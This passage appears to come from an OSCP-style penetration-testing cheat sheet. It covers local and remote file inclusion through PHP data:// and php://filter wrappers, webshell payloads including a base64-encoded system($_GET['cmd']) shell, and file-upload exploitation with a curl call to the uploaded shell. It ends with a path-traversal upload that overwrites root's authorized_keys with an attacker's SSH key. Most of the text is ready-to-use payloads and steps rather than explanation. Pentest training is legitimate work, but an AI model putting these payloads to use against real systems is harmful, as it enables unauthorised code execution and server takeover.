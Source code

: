```shell
/var/www/logs/access_log 
/var/www/logs/access.log 

/usr/local/apache/logs/access_ log 
/usr/local/apache/logs/access. log 


# Windows
C:\inetpub\wwwroot
C:\xampp\apache\logs\


# https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html
```
## *php data:// wrapper (LFI)*
***data:// wrapper will not work in a default PHP installation. To exploit it, the [allow_url_include](https://www.php.net/manual/en/filesystem.configuration.php) setting needs to be enabled***
1. ***Test** using wrappers to **VIEW** php files, instead of **EXECUTING** them.*
2. ***Webshell first** using the **data://** wrapper
3. ***Reverse shell** if success, and **URL-ENCODE***
```shell
php://filter/resource=PAGE.php
php://filter/convert.base64-encode/resource=PAGE.php

data://text/plain,<?php%20echo%20system('ls');?>
data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls
```
## RFI
***Just like the case with data wrapper, allow_url_include setting needs to be enabled***
1. ***Webshell first** to test for RFI
2. ***Reverse shell** if success (be mindful of **backend language**)**


# ***File Upload Vulns***
## php/asp upload (Executable)
1. ***Always** check, like below, for upload vulnerability if you see a upload box*
2. ***Test** using webshell and use different [extensions]( https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology) if failing*
3. ***If success**, use appropriate payload to pass to the **cmd** parameter and **access** the path:*
```shell
hURL -U PAYLOAD
curl http://IP:PORT/PATH_TO_UPLOAD/WEBSHELL.php?cmd=URL_ENCODED_PAYLOAD
```
## Non-executable (overwrite files, client-side attacks)
1. ***Test** using **text** file if executable files are prevented*
2. ***Use Burp** to modify using relative path payload to see if successful upload still occurs.*
3. ***If success** generate keys using **ssh-keygen** and overwrite the **root** user authorized_keys file by modifying the path in burp to point to it*
```shell
# Payload to test
../../../../../../../root/.ssh/authorized_key

# Generate keys
ssh-keygen
cat fileup.pub > authorized_keys
```
